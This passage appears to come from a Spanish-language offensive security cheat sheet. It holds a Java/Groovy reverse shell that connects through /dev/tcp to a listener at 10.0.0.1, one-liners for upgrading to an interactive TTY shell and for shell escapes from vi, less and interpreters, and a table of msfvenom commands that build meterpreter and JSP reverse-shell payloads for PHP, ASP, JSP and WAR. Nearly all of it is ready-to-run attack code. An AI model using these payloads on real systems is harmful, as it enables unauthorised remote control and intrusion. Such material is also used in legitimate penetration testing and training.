 **JAVA**
{% highlight java %}
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
{% endhighlight %}     

## Obtener Shell TTY interactiva

{% highlight bash %}
python -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/sh")'
{% endhighlight %}   

{% highlight bash %}
echo os.system('/bin/bash')
{% endhighlight %}   

{% highlight bash %}
/bin/sh -i
{% endhighlight %}   

{% highlight bash %}
execute('/bin/sh')
{% endhighlight %}   

{% highlight perl %}  
perl -e 'exec "/bin/sh";'
{% endhighlight %}   

{% highlight ruby %}
ruby: exec "/bin/sh"
{% endhighlight %}   

Usando vi / vim 
{% highlight bash %}
:!bash
{% endhighlight %}   

Usando man, more, less
{% highlight bash %}
!bash
{% endhighlight %}   

## Metasploit

**Generacion de payloads con msfvenom**  

### Web Payloads

| Comandos         | Explicacion                                                                 |
| --------         | ------------------------------------------------------------------          |
| msfvenom -p php/meterpreter_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f raw > example.php | Creacion de Shell Inversa para PHP por el protocolo TCP
| msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f asp > example.asp | Creacion de Shell Inversa para ASP por el protocolo TCP
| msfvenom -p java/jsp_shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f raw > example.jsp | Creacion de Shell Inversa para JSP por el protocolo TCP
| msfvenom -p java/jsp_shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f war > example.war | Creacion de Shell Inversa para WAR por el protocolo TCP |
